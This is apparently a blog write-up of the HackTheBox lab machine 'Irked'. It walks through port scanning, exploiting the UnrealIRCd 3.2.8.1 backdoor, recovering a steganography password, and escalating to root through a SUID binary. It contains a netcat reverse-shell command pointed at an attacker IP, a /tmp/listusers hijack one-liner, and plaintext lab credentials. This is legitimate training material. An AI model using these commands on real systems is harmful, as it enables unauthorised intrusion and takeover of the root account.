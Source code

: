 ```yaml
---
title: HackTheBox - Irked
date: 2020-12-29 14:15:34 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, backdoor, UnrealIRCd, steganography, linpeas, SUID, decompilation, ghidra, writeup, oscp-prep]
image: https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/Irked.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Irked-full-port-scan.txt 10.10.10.117
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33669/tcp6  status
|   100024  1          43204/udp6  status
|   100024  1          43678/tcp   status
|_  100024  1          60648/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
43678/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Apache/2.4.10 (port 80)

![web](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/web.png)

![source](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/source.png)

#### `dirb`

![dirb](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/dirb.png)

![manual](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/manual.png)

Nothing seems vulnerable on the Apache server. What about IRC ? 

### UnrealIRCd (port 6697, 8067, 65534)

According to the [RFC 1459](https://tools.ietf.org/html/rfc1459#section-4.1), in order to discuss with an IRC server we have to send 3 information: `PASS`, `NICK` and `USER`.

![RFC 1459](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/RFC.png)

Let's send them to the target:

![irc](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/irc.png)

Now we know **UnrealIRCd**'s version: `3.2.8.1`.

#### Manual exploit

By looking for exploits on this specific version, I came across this article describing [a backdoor in UnrealIRCd](https://lwn.net/Articles/392201/):

![backdoor](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/backdoor.png)

Indeed, if we use `searchsploit` to find IRC's exploits the first one is about this backdoor:

![searchsploit](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/searchsploit.png)

Let's try to exploit this vuln manually. We have to send a payload containing `AB + <command that we want to run>`.

- ICMP test:

![icmp-test](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/icmp-test.png)

- Reverse shell:

![reverse-shell](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/reverse-shell.png)

> **Note**: we could have used `metasploit`, or  `nmap` with the following options `--script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444"`

## User (ircd)

```bash
ircd@irked:~/Unreal3.2$ cd /home
ircd@irked:/home$ ls -la
total 16                                      
drwxr-xr-x  4 root     root     4096 May 14  2018 .
drwxr-xr-x 21 root     root     4096 May 15  2018 ..
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 djmardov 
drwxr-xr-x  3 ircd     root     4096 May 15  2018 ircd 
ircd@irked:/home/$ cd djmardov
ircd@irked:/home/djmardov$ cd Documents
ircd@irked:/home/djmardov/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
ircd@irked:/home/djmardov/Documents$
```

Okay so we have to privesc to **djmardov**'s account in order to read his `user.txt`. What's inside `.backup`?

```bash
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
ircd@irked:/home/djmardov/Documents$
```

There is mention of steg which corresponds to steganography.

The only file that I think contains a secret is this image on the web page. Let's download it, and run `steghide` with the password `UPupDOWNdownLRlrBAbaSSss` found in `.backup`:

![pass](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/pass.png)

`Kab6h+m+bbp2J:HG` is certainly the password of **djmardov**.

## User (djmardov)

Indeed we can use this password to log in with SSH:

![ssh](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/ssh.png)

- Flag:

```bash
djmardov@irked:~$ cd Documents/
djmardov@irked:~/Documents$ cat user.txt 
4a66a78b12dc0e661a59d3f5c0267a8e
```

We cannot run `sudo`:

```bash
djmardov@irked:~$ sudo -l
-bash: sudo: command not found
```

If we take a closer look at the SUID files, we can see that `exim4` and` viewuser` are the most recently updated ones.

![SUID](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/SUID.png)

I copied `viewuser` to my machine _(because I was more intrigued by this binary than exim4 which is a known Mail Transfer Agent)_ and I opened it with `ghidra`.

![scp](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/scp.png)

Here is the disassembled main function:

![ghidra disassembled main](https://pymaster-ft.github.io/assets/img/htb/machines/linux/easy/irked/ghidra-main.png)

> **Note**: we could also use `ltrace`.

`setuid(0)` is set just before `system("/tmp/listusers")`

So we just have to put a malicious content in `/tmp/listusers` and then execute `viewuser`.

## Root

```bash
djmardov@irked:/tmp$ echo "/bin/bash" > /tmp/listusers; chmod +x /tmp/listusers; viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-12-29 03:32 (:0)
djmardov pts/0        2020-12-29 04:05 (10.10.14.7)
root@irked:/tmp# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
root@irked:/tmp# cat /root/root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

___

## Useful links

- [A backdoor in UnrealIRCd](https://lwn.net/Articles/392201/)